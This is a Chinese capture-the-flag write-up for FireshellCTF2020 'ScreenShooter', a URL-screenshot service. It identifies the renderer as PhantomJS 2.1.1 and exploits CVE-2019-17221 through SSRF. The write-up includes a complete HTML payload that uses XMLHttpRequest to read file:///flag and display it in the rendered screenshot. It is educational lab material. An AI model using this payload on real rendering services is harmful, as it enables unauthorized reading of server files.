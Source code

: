 # \[FireshellCTF2020]ScreenShooter

## \[FireshellCTF2020]ScreenShooter

## 考点

* `PhantomJS` 2.1.1任意文件读取漏洞
* SSRF

## wp

只有一个功能点，对输入的URL进行访问，然后返回截图。

比如输入百度的URL就会返回它的截图

![](../.gitbook/assets/image-20210125220405236.png)

![](../.gitbook/assets/image-20210125220422610.png)

既然是访问了这个URL，那就生成个URL让它访问，看一下返回的信息

在 https://beeceptor.com/ 上生成一个临时域名，让这个题目访问，可以看到访问的请求头

![](<../.gitbook/assets/image (4) (1) (1).png>)

```
  "user-agent": "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1",
```

可以看到用的是`PhantomJS`

`PhantomJS` 2.1.1是有任意文件读取漏洞的，CVE-2019-17221。可以使用`XMLHttpRequest`和`file://`去读取本地文件，利用方式如下

1.在自己服务器上放个index.html，内容如下

```html
<!DOCTYPE html>
<html>
<head>
<title>3webdogs</title>
</head>
<body>
<script>
flag=new XMLHttpRequest;
flag.onload=function(){
    document.write(this.responseText)
};
flag.open("GET","file:///flag");
flag.send();
</script>
</body>
</html>
```

2.让题目访问 http://服务器地址/index.html 即可

![](../.gitbook/assets/image-20210125221937478.png)

最后用OCR识别一下就行了

## 小结

1. 关注CVE
